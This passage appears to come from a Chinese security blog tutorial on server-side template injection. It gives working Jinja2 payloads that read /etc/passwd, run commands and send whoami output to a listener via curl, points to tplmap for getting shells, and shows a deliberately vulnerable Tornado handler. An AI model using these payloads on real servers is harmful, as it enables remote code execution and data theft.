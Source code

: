{{''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__

**过滤花括号**

#用{%%}标记
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}

**利用示例：**

{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}  {% if b.__class__ == {}.__class__ %}    {% if 'eval' in b.keys() %}      {{ b['eval']('__import__("os").popen("id").read()') }}         //popen的参数就是要执行的命令    {% endif %}  {% endif %}  {% endfor %}
{% endif %}
{% endfor %}

这里推荐自动化工具tplmap，拿shell、执行命令、bind_shell、反弹shell、上传下载文件，Tplmap为SSTI的利用提供了很大的便利

github地址：[https://github.com/epinna/tplmap](https://github.com/epinna/tplmap)

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903230151729-80521204.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903230151729-80521204.png)

一键shell真香，还支持其他模板（Smarty，Mako，Tornado，Jinja2）的注入检测

tornado render是python中的一个渲染函数，也就是一种模板，通过调用的参数不同，生成不同的网页，如果用户对render内容可控，不仅可以注入XSS代码，而且还可以通过{{}}进行传递变量和执行简单的表达式。

以下代码将定义一个TEMPLATE变量作为一个模板文件，然后使用传入的name替换模板中的"FOO"，在进行加载模板并输出，且未对name值进行安全检查输入情况。

import tornado.template
import tornado.ioloop
import tornado.web
TEMPLATE = '''
<html>
 <head><title> Hello {{ name }} </title></head> <body> Hello max </body>
</html>
'''
class MainHandler(tornado.web.RequestHandler):

    def get(self):
        name = self.get_argument('name', '')
        template_data = TEMPLATE.replace("FOO",name)
        t = tornado.template.Template(template_data)
        self.write(t.generate(name=name))

application = tornado.web.Application([(r"/", MainHandler),], debug=True, static_path=None, template_path=None)

if __name__ == '__main__':
    application.listen(8000)
    tornado.ioloop.IOLoop.instance().start()

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911185502398-402029706.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911185502398-402029706.png)
